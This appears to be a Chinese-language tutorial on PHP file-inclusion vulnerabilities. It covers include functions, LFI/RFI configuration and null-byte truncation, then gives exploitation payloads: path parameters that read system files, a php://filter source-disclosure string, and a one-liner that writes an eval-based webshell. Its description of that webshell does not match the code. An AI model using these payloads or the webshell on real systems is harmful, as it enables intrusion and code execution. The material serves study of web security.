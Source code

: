 # 文件包含

留言        连接数据库
查看留言    连接数据库
登录        连接数据库
注册        连接数据库

代码的重复
留言             连接数据库  单独的文件
查看留言
登录
注册

- 程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某个函数的时候，直接调用此文件，无需再次编写，这种调用文件的过程通常称为包含

- 程序开发人员都希望代码更加灵活，所以通常会把被包含的文件设置为变量，来进行动态调用，但正是由于这种灵活性，从而导致客户端可以调用任意文件，造成文件包含漏洞。

- 几乎所有的脚本语言都会提供文件包含功能。文件包含漏洞在PHP Web Application中居多，在JSP/ASP/ASP.net程序中比较少。

# 漏洞产生的原因

1. Web应用实现了动态包含
2. 动态包含的文件路径参数，客户端可控

# PHP中的文件包含

## 语句

PHP中提供了四个文件包含的函数

函数                          区别
include()                    文件包含失败时，会产生警告，脚本会继续执行
include_once()               与include()功能相同，文件只会被包含一次
require()                    文件包含失败时，会产生错误，直接结束脚本运行
require_once()               与require()功能相同，文件只会被包含一次

## 相关配置

文件包含是PHP的基本功能之一，有本地文件包含和远程文件包含之分（虽然php官网上不是这么解释的）。简单来说，本地文件包含就是可以读取和打开本地文件，远程文件包含（HTTP,FTP,PHP伪协议）就是可以远程加载文件。我们可以通过php.ini来进行配置。如下
allow_url_fopen=On/Off         本地文件包含（LFT）
allow_url_include=On/Off       远程包含漏洞（RFI）

### 本地文件包含

本地文件包含就是我们可以通过相对路径的方式找到文件，然后包含之

### 远程文件包含

远程文件包含就是我们可以通过http(s)或者ftp等方式，远程加载文件

# 漏洞原理及特点

- 漏洞原理

PHP文件包含是程序设计的基础功能之一，能够减少代码量，提高开发效率。但是使用文件包含功能时，有类似于测试代码的设计，实现了动态包含，就有产生文件包含漏洞的风险。如果实现动态包含的参数，Web应用没有进行严格净化，客户端用户可以影响或控制文件包含的路径，就会产生文件包含漏洞

- 特点

PHP提供的文件包含功能非常强大，有以下特点

@ 无视文件扩展名读取文件

@ 无条件解析PHP代码

## 空字符安全绕过

空字符安全限制绕过，是PHP小于5.3.4版本的一个漏洞，CVE编号是CVE-2006-7243。这个漏洞就是PHP接收来自于路径名中的空（Null）字符，这可能允许依赖于上下文的攻击者通过在此字符后放置安全文件扩展名来绕过预期的访问限制，也就是00截断。00截断攻击也会体现在文件包含中。

注意：需要关闭PHP的魔术引号

## 文件包含漏洞的利用

- 读取敏感文件

我们可以利用文件包含漏洞读取任意文件，读取文件的时候有利用条件
@ 目标主机文件存在（目标文件的路径，绝对路径，相对路径）
@ 具有文件可读权限
提交参数[?path=c:\windows\System32\drivers\etc\hosts],读取本地host的文件

- 直接包含图片木马

可以利用文件包含漏洞直接包含图片木马，直接包含图片木马
[?path=pngYjh.png]

使用菜刀连接

- 包含木马写Shell

我们也可以将如下代码写入到图片中
<?php fputs(fopne('shell.php','w'),"<?php @eval(\$_REQUEST['cmd'])?>");?>
该段代码的含义是，在当前目录下创建一个名为[shell.php]的文件，内容为[<?php phpinfo();?>],当我们直接包含图片的时候，这段代码就会被执行

- PHP封装协议--访问本地文件

我们可以使用php的file协议访问本地系统文件，提交参数
[?path=file://c:\windows\System32\drivers\etc\hosts]

- PHP封装协议--传输PHP文件

可以使用以下参数来传送任意PHP文件
[?path=php://filter/read=convert.base64-encode/resource=inc.php]
然后把得到的所有字符串base64解码即可

- PH封装协议--执行PHP命令

我们可以利用PHP的封装协议来执行PHP命令，如下

# 已知一个网站存在本地文件漏洞，没有文件上传API，如何利用？
1. 包含本地日志文件getShell
   日志文件的路径？
    1. 常识
    2. 爆破
2. 包含session文件，造成sessionId泄露

meyinfo5.0.4 文件包含漏洞代码审计